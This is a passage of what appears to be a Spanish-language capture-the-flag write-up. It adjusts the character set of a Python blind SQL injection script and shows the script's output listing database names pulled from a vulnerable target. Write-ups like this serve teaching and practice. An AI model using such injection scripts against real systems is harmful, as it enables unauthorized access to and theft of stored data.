 Esto puede ser porque utilice algún carácter especial, por lo cual vamos a añadir un set de caracteres especiales.
Modificamos la variable `charset`
```python
charset = string.ascii_lowercase + string.digits + "_" + "~!@$%^*()-=<>?/"
```

Ahora si lanzamos el script...
```console
 python3 sqli.py
[*] Target is vulnerable
[◑] 0 Database name: disavowlist
[O] 1 Database name: home
[├] 2 Database name: tutorials-incomplete
[....\...] 3 Database name: upload
[|] 4 Database name
[*] OK
```

Ahora si que podemos ver algo diferente, nos damos cuenta de que hay una imagen y un código QR un tanto extraño.
![Write-up Image](images/Screenshot_21.png)
